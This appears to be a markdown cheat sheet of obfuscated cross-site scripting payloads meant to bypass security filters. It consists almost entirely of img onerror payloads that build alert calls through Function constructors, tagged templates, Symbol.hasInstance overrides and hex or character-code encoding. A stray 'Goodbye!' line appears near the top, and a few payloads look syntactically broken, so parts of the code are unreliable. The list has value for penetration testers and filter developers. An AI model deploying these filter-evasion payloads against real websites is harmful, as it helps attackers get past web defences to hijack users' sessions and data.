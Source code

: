 # Obfuscated XSS

The art of hiding Cross-Site Scripting (XSS) payloads to bypass security filters.

Goodbye!

```
<img src onerror=alert`1`>
```

----------

### filter.constructor

```
<img src onerror="[].filter.constructor('('+('al'+'ert')+')(1)')()">
<img src onerror="[].filter.constructor(''+String.fromCharCode(97,108,101,114,116)+'(1)')()">
<img src onerror="[].filter.constructor('\u0061\u006c\u0065\u0072\u0074(1)')()">
<img src onerror="[].filter.constructor('\x61\x6c\x65\x72\x74(1)')()">
<img src onerror="[]['filter']['constructor'](('al'+[]['filter']['name'])[0]+('ert')(1))">
```

### Simple Tagged template literal abuse

```
<img src=x onerror="Function`al\x65rt\x28'XSS'\x29`()">
```

### Indirect function call obfuscation with Symbol.hasInstance abuse and instanceof override

```
<img src=x onerror="([][Symbol.hasInstance]=eval,[]instanceof{[Symbol.hasInstance](){('al'+'ert')(0)}})">
```

### Function constructor via template literal with Hex-encoded payload

```
<img src=x onerror="Function`\x61\x6c\x65\x72\x74\x28\x31\x29`()">
```

## Function constructor with String.fromCharCode Encoding

```
<img src=x onerror="(Function(String.fromCharCode(115,101,116,84,105,109,101,111,117,116,40,39,97,108,101,114,116,40,49,41,39,41)))()">
```

